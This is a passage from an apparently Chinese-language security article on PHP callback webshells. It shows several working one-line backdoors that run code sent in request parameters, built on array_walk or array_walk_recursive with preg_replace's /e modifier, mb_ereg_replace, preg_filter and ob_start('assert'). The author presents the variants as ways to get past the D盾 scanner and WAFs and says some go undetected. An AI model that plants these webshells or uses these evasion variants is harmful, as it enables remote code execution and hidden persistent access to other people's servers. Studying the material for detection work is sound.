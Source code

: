 三个参数可以用preg_replace。所以我这里构造了一个array_walk + preg_replace的回调后门：

```
$e = $_REQUEST['e'];
$arr = array($_POST['pass'] => '|.*|e',);
array_walk($arr, $e, '');

```

如图，这个后门可以在5.3下使用：

![enter image description here](http://drops.javaweb.org/uploads/images/64f5601504ab5a792131cb87448cd72e40ff48f1.jpg)

但强大的D盾还是有警觉（虽然只是等级2）：

![enter image description here](http://drops.javaweb.org/uploads/images/a1fc8e73a07eb239b84584d94f4d52b025a7a33d.jpg)

不过呵呵，PHP拥有那么多灵活的函数，稍微改个函数（array_walk_recursive）D盾就查不出来了：

```
$e = $_REQUEST['e'];
$arr = array($_POST['pass'] => '|.*|e',);
array_walk_recursive($arr, $e, '');

```

不截图了。

看了以上几个回调后门，发现preg_replace确实好用。但显然很多WAF和顿顿狗狗的早就盯上这个函数了。其实php里不止这个函数可以执行eval的功能，还有几个类似的：

```
mb_ereg_replace('.*', $_REQUEST['pass'], '', 'e');

```

另一个：

```
echo preg_filter('|.*|e', $_REQUEST['pass'], '');

```

这两个一句话都是不杀的：

![enter image description here](http://drops.javaweb.org/uploads/images/76523bd4f489367b83f276012a4a2fa6661409c5.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/ced5f26af97ad92d9273fc9e6b20458663270b3d.jpg)

好用的一句话，且用且珍惜呀。

0x05 无回显回调后门
============

* * *

回调后门里，有个特殊的例子：ob_start。

ob_start可以传入一个参数，也就是当缓冲流输出时调用的函数。但由于某些特殊原因（可能与输出流有关），即使有执行结果也不在流里，最后也输出不了，所以这样的一句话没法用菜刀连接：

```
ob_start('assert');
echo $_REQUEST['pass'];
ob_end_flush();

```
